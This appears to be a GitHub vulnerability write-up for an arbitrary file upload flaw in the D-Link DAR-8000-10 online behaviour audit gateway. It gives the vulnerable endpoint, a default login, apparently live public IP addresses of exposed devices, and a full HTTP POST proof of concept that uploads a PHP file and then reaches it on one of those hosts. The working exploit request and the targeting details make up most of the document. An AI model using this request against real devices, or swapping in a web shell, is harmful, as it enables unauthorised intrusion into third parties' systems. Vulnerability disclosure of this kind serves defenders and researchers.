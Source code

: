 The full version of the D-LINK DAR-8000-10 series online behavior audit gateway has a file upload vulnerability. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.

official： http://www.dlink.com.cn/

version:DAR-8000-10

Vulnerability Path ：/sysmanage/updatelib.php

Ip：https://59.60.19.174:8443/

Log in to the system using the default password：test/admin@123

POC：
```
POST /sysmanage/updatelib.php? HTTP/1.1
Host: 60.22.74.195:8443
Cookie: PHPSESSID=eb22543a6a7b4ffd10816d515b505f7f
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; Trident/7.0; rv:11.0) like Gecko
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------42328904123665875270630079328
Content-Length: 717
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="ck"

radhttp
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="file_upload"; filename="phpinfo.php"
Content-Type: application/octet-stream

<?php phpinfo()?>
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="hid_tftp_ip"


-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="hid_ftp_ip"


-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="mode"

set
-----------------------------42328904123665875270630079328—
```

<img width="670" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/b8eb471f-15ad-473c-8950-d3c4a09b5fd6">

https://59.60.19.174:8443/home/phpinfo.php

<img width="714" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/060f093e-f354-4d9e-91bd-e232632a04b6">
